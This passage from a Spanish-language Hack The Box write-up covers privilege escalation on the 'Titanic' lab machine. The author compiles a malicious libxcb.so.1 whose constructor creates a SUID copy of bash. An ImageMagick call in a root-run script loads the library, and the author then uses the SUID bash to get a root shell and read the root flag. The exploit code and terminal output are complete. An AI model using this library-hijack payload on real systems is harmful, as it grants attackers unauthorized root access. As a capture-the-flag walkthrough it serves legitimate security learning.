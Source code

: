 Aprovecho este comportamiento compilando una biblioteca `libxcb.so.1` maliciosa que copia `/bin/bash` hacia `/tmp/bash` con el bit SUID activado.

```terminal
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /bin/bash /tmp/bash; chmod u+s /tmp/bash");
    exit(0);
}
EOF
```

Luego, cuando el script `identify_images.sh` es ejecutado automáticamente, el binario magick carga mi `libxcb.so.1`, activando el payload y la creación del binario con permisos SUID.

```terminal
developer@titanic:/opt/app/static/assets/images$ ls -al /tmp/bash
-rwsr-xr-x  1 root      root      1396520 Jul  2 16:14 bash
```

Ejecuto el binario de forma privilegiada accediendo a una shell como `root`.

```terminal
developer@titanic:/opt/app/static/assets/images$ /tmp/bash -p

bash-5.1# id
uid=1000(developer) gid=1000(developer) euid=0(root) egid=0(root) groups=0(root),1000(developer)

bash-5.1# cat /root/root.txt
```

> <a href="https://labs.hackthebox.com/achievement/machine/1521382/648" target="_blank">***Litio7 has successfully solved Titanc from Hack The Box***</a>
{: .prompt-info style="text-align:center" }
